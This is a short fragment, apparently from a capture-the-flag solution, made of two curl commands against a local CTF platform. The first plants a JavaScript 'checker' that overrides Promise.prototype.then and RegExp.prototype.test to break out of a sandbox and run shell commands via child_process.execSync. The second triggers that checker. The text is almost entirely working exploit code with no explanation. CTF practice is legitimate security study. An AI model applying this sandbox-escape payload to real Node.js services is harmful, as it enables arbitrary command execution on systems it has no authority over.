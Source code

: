 curl -v http://localhost:1337/ctf/tctf/challenges -H 'Content-type: application/json' --data '{"name":"a","points":1,"checker":"_t = Promise.prototype.then; x=0; Promise.prototype.then = function(...args){ x++; if(x==4){ log(args[0]);log(args[0](\"safe_require\\(\\\"child_process\\\"\\).execSync\\(\\\"id\\\"\\).toString\\(\\)\")); };return _t.apply(this, args)}; RegExp.prototype.test = function(...args){return true};  Promise.resolve()"}'

curl -v http://localhost:1337/ctf/tctf/challenges/a/solve -H 'Content-type: application/json' --data '{"flag":"a","user":"b"}'
